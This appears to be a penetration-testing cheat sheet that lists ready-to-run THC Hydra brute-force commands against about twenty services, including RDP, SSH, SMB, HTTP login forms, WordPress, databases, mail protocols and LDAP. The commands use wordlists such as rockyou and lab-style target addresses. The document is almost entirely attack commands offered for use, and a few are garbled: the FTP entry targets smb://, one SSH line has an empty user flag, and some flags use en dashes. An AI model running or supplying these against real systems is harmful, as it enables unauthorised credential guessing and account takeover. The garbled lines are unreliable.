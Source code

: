 !!! info ""

    #### Hydra GUI

    [xhydra](https://www.kali.org/tools/hydra/#hydra-gtk)

    ```bash
    sudo apt install hydra-gtk
    ```

    #### RDP

    ```bash
    hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V
    hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip	
    ```

    #### SSH

    ```bash
    hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V
    hydra $ip -s 22 ssh -l -P big_wordlist.txt
    hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh
    hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh
    ```

    #### SMB

    ```bash
    hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V
    hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb	
    hydra -L usernames.txt -P passwords.txt $ip smb -V -f	
    ```

    #### FTP

    ```bash
    hydra -l root -P passwords.txt -f smb://10.0.2.5 -V
    ```

    #### HTTP Basic Auth

    ```bash
    hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V
    Http get 401 login with a dictionary
    hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin
    ```

    #### HTTP Post

    ```bash
    hydra -L users.txt -P password.txt 10.0.2.5 http-post-form
    "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login
    name or password is incorrect" -V

    hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.216.57 http-post-form "/Account/login.aspx:__VIEWSTATE=AmInWQjOL%2BAHMc9qQ0CW0CFnlUXaqoRXEj%2FOvBixV%2Fld9p%2BKj%2B7mB%2FZ7FcrOxWmCkIjSfD9utiaSxAvSBmKz1VkaDvYW9b5sxJWoX3ZOskfQg0u3CsSjndshwiuLcEq7l%2BRc7FwwBs%2BvLvrnXfcLFt%2B0vNv1zwwLa3QoTUjG3V9hk0Sg&__EVENTVALIDATION=zMZzvwm4lfkTglvBFfLhbEjJu8yEheigLkmHJ7E8owtV2FVK0TTZdne0RExmMdPY5RORs4UuLmymoBfQmY8UwKaRwaqnpZkAM%2BPLgxPNj3wtiiTaC4jbJSUoKPCRWBtpMIz4vtdxr9zbhDPn5zB7IJSOpA%2FMzo6LYD9oiiaMKWUj8VNM&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
    ```

    #### IMAP

    ```bash
    hydra -l root -P passwords.txt -f imap://10.0.2.5 -V
    ```

    #### MySQL

    ```bash
    hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V
    ```

    #### POP

    ```bash
    hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V
    hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V	
    ```

    #### Redis

    ```bash
    hydra –P password.txt redis://10.0.2.5 -V
    ```

    #### Rexec

    ```bash
    hydra -l root -P password.txt rexec://10.0.2.5 -V
    ```

    #### Rlogin

    ```bash
    hydra -l root -P password.txt rlogin://10.0.2.5 -V
    ```

    #### RSH

    ```bash
    hydra -L username.txt rsh://10.0.2.5 -V
    ```

    #### RSP

    ```bash
    hydra -l root -P passwords.txt <IP> rtsp
    ```

    #### SNMP

    ```bash
    hydra -P password-file.txt -v $ip snmp
    ```

    #### SMTP

    ```bash
    hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
    hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V
    hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
    #Port 587 for SMTP with SSL
    ```

    #### Telnet

    ```bash
    hydra -l root -P passwords.txt [-t 32] <IP> telnet
    ```

    #### VNC

    ```bash
    hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT>
    <IP> vnc
    ```

    #### Wordpress

    ```bash
    hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'	
    ```

    #### LDAP

    ```bash
    hydra -L users.txt -P passwords.txt $ip ldap2 -V -f	
    ```
